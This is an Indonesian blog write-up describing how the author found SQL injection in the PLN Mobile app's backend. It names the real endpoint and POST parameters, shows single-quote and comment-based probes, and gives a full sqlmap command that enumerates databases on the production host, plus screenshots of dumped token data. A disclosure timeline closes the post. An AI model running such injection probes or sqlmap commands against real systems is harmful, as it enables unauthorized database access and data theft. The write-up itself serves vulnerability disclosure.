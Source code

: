 ```yaml
---
title: SQL Injection at Application PLN Mobile (Intercept Application Mobile)
date: 2020-08-17
---
```


![ ](https://miro.medium.com/max/600/1*nmPP_fIUsZoBn408ydemgA.jpeg)

Halo semuanya, Kali ini saya mau menulis write up sederhana yaitu Vulnerability SQL Injection di http://mobileapps.iconpln.co.id

Penemuan ini bermula dari saya melihat tagihan pembayaran listrik dirumah saya dan membuka aplikasi PLN Mobile Android.

Saya berpikir untuk melakukan intercept menggunakan Burpsuite pada aplikasi PLN Mobile. Sebelumnya saya mengkonfigurasi Burpsuite agar bisa melakukan intercept http request di aplikasi android

Pada tahap selanjutnya, saya melakukan intercept di bagian “informasi tarif listrik berlaku”

![ ](https://miro.medium.com/max/2400/1*sM-XM_wRWyRgYhCGpIMd1Q.jpeg)

Dan ini dia hasil intercept nya

![ ](https://miro.medium.com/max/2400/1*uMJRVAuaFyrchkHysB1I8A.png)

Saya mendapatkan request url dan post datanya

> Request URL: http://mobileapps.iconpln.co.id/infotdlpln
> Post Data: kel=R&produk=PASCABAYAR&serial=2676912684812711463125741116100882149710822849775988211212784127367787&versi=451&id=2676912684812711463125741116100882149710822849775988211212784127367787

___

Selanjutnya saya memeriksa di post datanya apakah vulnerable SQLI atau tidak, saya
menginjeksikan dengan single quote pada parameter “produk”. Maka response nya adalah

![ ](https://miro.medium.com/max/2400/1*FIMQa81qYPey_9Wqavtu_Q.png)

“Error 500”

___

Awalnya saya tidak yakin bahwa Vulnerable SQLI, maka saya ingin memeriksanya lagi dengan menambahkan `-- -` setelah single quote. Maka response nya adalah

![ ](https://miro.medium.com/max/2400/1*c96BFoR_gr51BsuRoJL3CQ.png)

Responsnya adalah menampilkan data-data normal.
Jika response yang muncul menampilkan data - data normal ketika menambahkan `-- -` maka bisa di pastikan vulnerable terhadap SQLI (tidak semua bisa atau pasti, tetapi mungkin saja)

___

Selanjutnya saya melakukan scan di SQLmap dengan command

```
sqlmap -u https://mobileapps.iconpln.co.id/infotdlpln --data=”kel=R&produk=PASCABAYAR&serial=2676912684812711463125 741116100882149710822849775988211212784127367787&versi=451 &id=267691268481271146312574111610088214971082284977598821 1212784127367787” --level 3 --risk 3 --dbs --threads 10
```

Maka hasil scan nya adalah

![ ](https://miro.medium.com/max/2400/1*SP5nk4I_M_2yr6TfsUk3Hg.png)

Terakhir data HPH Token Gratis

![ ](https://miro.medium.com/max/2400/1*FD8wjTLyqsVrBHyVjWF9iw.png)

TETAPI DATA TAHUN 2017 HEHE...

___

## Timeline Report

+ 27 Juli, 2020 = Send report via email humas@iconpln.co.id

+ 28 Juli, 2020 = Send report via email bantuan70@bssn.go.id

+ 8 Agustus, 2020 = Send report via email pln123@pln.co.id

Sekian write up dari saya ini, mohon maaf apabila ada salah dalam penulisan kata. jangan lupa di share yaa, agar saya semangat untuk menulis write up kembali.

Contact me at [About Me](/about/)
